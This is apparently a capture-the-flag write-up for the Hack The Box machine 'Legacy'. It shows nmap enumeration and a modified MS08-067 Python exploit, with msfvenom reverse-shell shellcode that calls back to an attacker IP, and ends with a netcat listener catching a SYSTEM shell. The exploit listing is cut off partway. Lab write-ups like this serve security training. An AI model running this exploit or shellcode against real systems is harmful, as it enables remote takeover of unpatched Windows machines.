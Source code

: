 ```yaml
---
title: Legacy
tags: windows
---
```


![image](assets/79371281-1f5c9c00-7f22-11ea-957d-45c0a5eb8a97.png)

## Overview

Legacy is a Windows XP SP3 box that was vulnerable to a couple famous smb exploits, MS08-067 (exploited by Conficker) and MS17-010. I went with the former because I had already covered using MS17-010 in the write-up for Blue. The box was pretty straight forward; once I generated a new payload and updated the script I received a callback and shell as 'nt authority/system'.

## Enumeration

**Software**

* Microsoft Windows XP Professional 5.1.2600 SP3 Build 2600

**Port Scan**
```
map -vv -Pn -sT -A -p- 10.10.10.4 -oN /mnt/data/boxes/legacy/_full_tcp_nmap.txt
```

* 139/tcp - smb
* 445/tcp - smb
* 3389/tcp - remote desktop


## Steps (user)

There is no user step, exploit provides 'nt authority\system' shell.

## Steps (root/system)

I started by trying some typical smb commands but was not able to connect or gain any useful information.

![image](assets/82962092-349b0080-9f8d-11ea-9962-d7a949ea6311.png)

I used nmap to scan for smb vulnerabilities and found that it was vulnerable to MS08-067 and MS17-010. I decided to proceed with MS08-067 which was exploited by Conficker.

> Additional Info: Inside story behind [MS08-067](https://docs.microsoft.com/en-us/archive/blogs/johnla/the-inside-story-behind-ms08-067)

```
nmap -p 139,445 -Pn --script=smb-vuln* 10.10.10.4
```

![image](assets/82961915-af175080-9f8c-11ea-93c2-01f6307d190e.png)

Doing an internet search for MS08-067 showed an existing python exploit called "Microsoft Windows - 'NetAPI32.dll' Code Execution (Python)" - https://www.exploit-db.com/exploits/40279

I reviewed the script and updated it with my own shellcode using MSFVenom. I went with a standard shell_reverse_tcp, specified the IP and port, along with the EXITFUNC and badchars as called out in the script.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=4200  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
```

The original payload was 380 bytes and mine was 348, so a difference of 32 bytes. To accomodate for this I added an additional 32 NOPs and I added my payload right after.  

```python
import struct
import time
import sys

from threading import Thread    #Thread is imported incase you would like to modify

try:
    from impacket import smb
    from impacket import uuid
    from impacket import dcerpc
    from impacket.dcerpc.v5 import transport
except ImportError, _:
    print 'Install the following library to make this script work'
    print 'Impacket : http://oss.coresecurity.com/projects/impacket.html'
    print 'PyCrypto : http://www.amk.ca/python/code/crypto.html'
    sys.exit(1)

print '#######################################################################'
print '#   MS08-067 Exploit'
print '#   This is a modified verion of Debasis Mohanty\'s code (https://www.exploit-db.com/exploits/7132/).'
print '#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi'
print '#######################################################################\n'

#Reverse TCP shellcode from metasploit; port 443 IP 192.168.40.103; badchars \x00\x0a\x0d\x5c\x5f\x2f\x2e\x40;
#Make sure there are enough nops at the begining for the decoder to work. Payload size: 380 bytes (nopsleps are not included)
#EXITFUNC=thread Important!
# Reverse TCP shellcode from metasploit; port 443 IP 192.168.40.103; badchars \x00\x0a\x0d\x5c\x5f\x2f\x2e\x40;
# Make sure there are enough nops at the begining for the decoder to work. Payload size: 380 bytes (nopsleps are not included)
# EXITFUNC=thread Important!
# Oiriginal -> msfvenom -p windows/meterpreter/reverse_tcp LHOSiT=192.168.30.77 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=4200  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python

shellcode= "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode= "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
shellcode+=b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
shellcode+=b"\x76\x0e\xb1\xb3\xda\xda\x83\xee\xfc\xe2\xf4\x4d\x5b"
shellcode+=b"\x58\xda\xb1\xb3\xba\x53\x54\x82\x1a\xbe\x3a\xe3\xea"
shellcode+=b"\x51\xe3\xbf\x51\x88\xa5\x38\xa8\xf2\xbe\x04\x90\xfc"
shellcode+=b"\x80\x4c\x76\xe6\xd0\xcf\xd8\xf6\x91\x72\x15\xd7\xb0"
shellcode+=b"\x74\x38\x28\xe3\xe4\x51\x88\xa1\x38\x90\xe6\x3a\xff"
shellcode+=b"\xcb\xa2\x52\xfb\xdb\x0b\xe0\x38\x83\xfa\xb0\x60\x51"
shellcode+=b"\x93\xa9\x50\xe0\x93\x3a\x87\x51\xdb\x67\x82\x25\x76"
shellcode+=b"\x70\x7c\xd7\xdb\x76\x8b\x3a\xaf\x47\xb0\xa7\x22\x8a"
shellcode+=b"\xce\xfe\xaf\x55\xeb\x51\x82\x95\xb2\x09\xbc\x3a\xbf"
shellcode+=b"\x91\x51\xe9\xaf\xdb\x09\x3a\xb7\x51\xdb\x61\x3a\x9e"
shellcode+=b"\xfe\x95\xe8\x81\xbb\xe8\xe9\x8b\x25\x51\xec\x85\x80"
shellcode+=b"\x3a\xa1\x31\x57\xec\xdb\xe9\xe8\xb1\xb3\xb2\xad\xc2"
shellcode+=b"\x81\x85\x8e\xd9\xff\xad\xfc\xb6\x4c\x0f\x62\x21\xb2"
shellcode+=b"\xda\xda\x98\x77\x8e\x8a\xd9\x9a\x5a\xb1\xb1\x4c\x0f"
shellcode+=b"\x8a\xe1\xe3\x8a\x9a\xe1\xf3\x8a\xb2\x5b\xbc\x05\x3a"
shellcode+=b"\x4e\x66\x4d\xb0\xb4\xdb\xd0\xd0\xbf\xae\xb2\xd8\xb1"
shellcode+=b"\xa3\xb2\x53\x57\xd9\xca\x8c\xe6\xdb\x43\x7f\xc5\xd2"
shellcode+=b"\x25\x0f\x34\x73\xae\xd6\x4e\xfd\xd2\xaf\x5d\xdb\x2a"
shellcode+=b"\x6f\x13\xe5\x25\x0f\xd9\xd0\xb7\xbe\xb1\x3a\x39\x8d"
shellcode+=b"\xe6\xe4\xeb\x2c\xdb\xa1\x83\x8c\x53\x4e\xbc\x1d\xf5"
shellcode+=b"\x97\xe6\xdb\xb0\x3e\x9e\xfe\xa1\x75\xda\x9e\xe5\xe3"
shellcode+=b"\x8c\x8c\xe7\xf5\x8c\x94\xe7\xe5\x89\x8c\xd9\xca\x16"
shellcode+=b"\xe5\x37\x4c\x0f\x53\x51\xfd\x8c\x9c\x4e\x83\xb2\xd2"
shellcode+=b"\x36\xae\xba\x25\x64\x08\x3a\xc7\x9b\xb9\xb2\x7c\x24"
shellcode+=b"\x0e\x47\x25\x64\x8f\xdc\xa6\xbb\x33\x21\x3a\xc4\xb6"
shellcode+=b"\x61\x9d\xa2\xc1\xb5\xb0\xb1\xe0\x25\x0f"

...truncated...
```

Looking at the script there are different return addresess for various different operating systems. This took a little trial and error but eventually it worked with option 6, 'Windows XP SP3 English (NX)'.

I started a netcat listener (nc -lvnp 4200) and ran the command with the parameter of 6 and received a shell

```
python ./40279.py 10.10.10.4 6
```

![image](assets/82964410-6911bb00-9f93-11ea-93e0-589070840765.png)

Note: This version of windows doesn't have whoami.exe so I had to upload it.

![image](assets/82964583-d1f93300-9f93-11ea-8a44-5456da5ffb1b.png)

